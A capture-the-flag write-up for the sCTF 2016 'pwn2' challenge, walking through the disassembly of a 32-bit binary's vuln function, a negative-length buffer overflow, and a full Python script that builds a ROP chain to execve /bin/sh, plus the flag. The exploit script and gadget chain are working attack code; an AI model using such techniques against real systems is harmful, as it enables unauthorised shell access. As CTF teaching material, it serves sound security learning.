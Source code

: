 ## pwn2 - 120 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2016-4-15

### Problem ###
Update: A system call was changed to allow the binary to work on some 32 bit systems. This doesn't change the flag or how it's solved. Only enables 32 bit compatibility on those systems.

Echo servers are easy stuff, right?
`nc problems2.2016q1.sctf.io 1338`

### Hint ###
You're gonna need your utility belt, full of gadgets, to solve this one.

## Answer ##

### Overview ###
Figure out how to cause a buffer overflow and create a system call for execve on /bin/sh.

### Details ###

We open up the binary and yet again find that there is a function named vuln for us to look at, how convenient.

```asm
.text:0804852F                                      public vuln
.text:0804852F                      vuln            proc near               ; CODE XREF: main+31p
.text:0804852F
.text:0804852F                      nptr            = byte ptr -2Ch
.text:0804852F                      var_C           = dword ptr -0Ch
.text:0804852F
.text:0804852F 55                                   push    ebp
.text:08048530 89 E5                                mov     ebp, esp
.text:08048532 83 EC 48                             sub     esp, 48h
.text:08048535 C7 04 24 80 86 04 08                 mov     dword ptr [esp], offset format ; "How many bytes do you want me to read? "
.text:0804853C E8 2F FE FF FF                       call    _printf
.text:08048541 C7 44 24 04 04 00 00+                mov     dword ptr [esp+4], 4
.text:08048549 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804854C 89 04 24                             mov     [esp], eax
.text:0804854F E8 8F FF FF FF                       call    get_n
.text:08048554 8D 45 D4                             lea     eax, [ebp+nptr]
.text:08048557 89 04 24                             mov     [esp], eax      ; nptr
.text:0804855A E8 61 FE FF FF                       call    _atoi
.text:0804855F 89 45 F4                             mov     [ebp+var_C], eax
.text:08048562 83 7D F4 20                          cmp     [ebp+var_C], 20h
.text:08048566 7E 15                                jle     short loc_804857D
.text:08048568 8B 45 F4                             mov     eax, [ebp+var_C]
.text:0804856B 89 44 24 04                          mov     [esp+4], eax
.text:0804856F C7 04 24 A8 86 04 08                 mov     dword ptr [esp], offset aNoThatSizeDIsT ; "No! That size (%d) is too large!\n"
.text:08048576 E8 F5 FD FF FF                       call    _printf
.text:0804857B EB 39                                jmp     short locret_80485B6
.text:0804857D                      ; ---------------------------------------------------------------------------
.text:0804857D
.text:0804857D                      loc_804857D:                            ; CODE XREF: vuln+37j
.text:0804857D 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048580 89 44 24 04                          mov     [esp+4], eax
.text:08048584 C7 04 24 CC 86 04 08                 mov     dword ptr [esp], offset aOkSoundsGood_G ; "Ok, sounds good. Give me %u bytes of da"...
.text:0804858B E8 E0 FD FF FF                       call    _printf
.text:08048590 8B 45 F4                             mov     eax, [ebp+var_C]
.text:08048593 89 44 24 04                          mov     [esp+4], eax
.text:08048597 8D 45 D4                             lea     eax, [ebp+nptr]
.text:0804859A 89 04 24                             mov     [esp], eax
.text:0804859D E8 41 FF FF FF                       call    get_n
.text:080485A2 8D 45 D4                             lea     eax, [ebp+nptr]
.text:080485A5 89 44 24 04                          mov     [esp+4], eax
.text:080485A9 C7 04 24 F8 86 04 08                 mov     dword ptr [esp], offset aYouSaidS ; "You said: %s\n"
.text:080485B0 E8 BB FD FF FF                       call    _printf
.text:080485B5 90                                   nop
.text:080485B6
.text:080485B6                      locret_80485B6:                         ; CODE XREF: vuln+4Cj
.text:080485B6 C9                                   leave
.text:080485B7 C3                                   retn
.text:080485B7                      vuln            endp```

Pretty straight-forward, get_n gets a string and then atoi converts it to a value.

Signed compare for if its too big, but buffer size is unsigned. Enter a negative value and you can enter as many characters as you want.

nptr is 0x30 from the stack buffer so we can get eip control like so:

```python
print '-1'
# Overflow
rop = ('A'*0x30)```

Now the next value we write will be eip at the end of the function.

Now to build a syscall to execve, first we need "/bin/sh" in memory. So we call get_n with an address thats writeable.

```python
# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'```

Essentially `get_n(0x804a024, 0x42424242);`

After that we can just print "/bin/sh\0" and get a C string for /bin/sh in the file.

Now we need to setup the syscall params.

```python
# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax```

Here we print "/bin/sh" which will set `ecx` to 7 and coincidentally `ecx` will also end up being 7.

```python
# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'```

Simply pop the ptr to "/bin/sh" into `ebx`

```python
# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'```

This probably looks pretty cancer, and it is. This takes `ecx` and increments/doubles it up to be a pointer to zero, this is so that the argv/argc for /bin/sh are valid. (Also I wrote a script to generate this chain rather than me having to hand write it, generation script not included).

```python
# int 0x80
rop += '\xd0\x84\x04\x08'
print rop
print '/bin/sh\0'```

And finally call execve to make the shell.

We print the rop chain and the input value for the get_n.


### Flag ###

The flag we get when running this on the server is `sctf{r0p_70_th3_f1n1sh}`


### Full Script ###

```python
print '-1'
# Overflow
rop = ('A'*0x30)

# Call the write thing
rop += '\xe3\x84\x04\x08' + '\x4e\x86\x04\x08'  + '\x24\xa0\x04\x08' + 'BBBB'

# Set eax to the proper value, 0xb
rop += '\x70\x83\x04\x08' + '\xe1\x84\x04\x08' + '\x24\xa0\x04\x08' # eax = 7
rop += '\xd3\x84\x04\x08'*4 # add 4 to eax

# "/bin/sh", 0 is now at 0x804a024
# set ebx to that
rop += '\x76\x86\x04\x08' + '\x24\xa0\x04\x08'

# Ecx = ptr to 0
rop += '\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\x9a\x84\x04\x08\xd7\x84\x04\x08'

# int 0x80
rop += '\xd0\x84\x04\x08'

print rop
print '/bin/sh\0'```
